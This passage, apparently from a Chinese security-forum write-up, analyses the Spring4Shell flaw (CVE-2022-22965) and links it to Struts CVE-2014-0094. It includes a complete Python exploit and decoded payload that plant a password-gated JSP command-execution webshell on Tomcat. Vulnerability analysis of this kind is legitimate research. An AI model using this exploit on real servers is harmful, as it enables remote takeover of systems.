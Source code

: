     ![image-20220409175554892](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8d8d43118086733ba0b742262cc349e2daca780a.png)
    
    ![image-20220409175650593](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b68a8b24b6b47c06142ab8429ed4d40ccbc3ed1f.png)
    
    那么现在 spring 过滤 classLoader 的修复已经是被绕过了，但在 tomcat6.0.28 之后因为 getUrls 的修复，之前的利用方式也无法使用。而在这个漏洞中 getshell 的方式和之前 Apache Struts 曾经曝出过的远程代码执行（CVE-2014-0094）相似，通过修改 Tomcat 的日志设置（通过AccessLogValve）来写入恶意文件。
    
    到 CVE-2014-0094 在 msf 中已经集成，看一下 poc，
    
    ![image-20220409181314079](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-7cfbbca3ae05117965235fa77a5ba63dcd0c6592.png)
    
    对应 http 报文填充的内容：
    
    ![image-20220409181405577](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f1752e7d312e0818c2cb3594b5e6d741c6532bfb.png)
    
    不过后续是直接将 ?dump 进去
    
    ![image-20220409192648824](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-bfa0c3cdbebd49e5aa391663c2033b1cb36a4ef0.png)
    
    ![image-20220409192735003](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0c248803b71b05abcb56705476718303a53d7f4e.png)
    
    看一下 CVE-2022-22965 的 poc，这里利用了 pattern 来写?
    
    ```php
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    
    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:
    
        requests.post(url,headers=headers,data=data,timeout=15,allow\_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow\_redirects=False, verify=False)
        if shellgo.status\_code == 200:
            print(f"Vulnerable，shell ip:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass
    ```
    
    其中将 url 解码后，看一下每个参数的赋值：
    
    class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte\[\] b = new byte\[2048\]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
    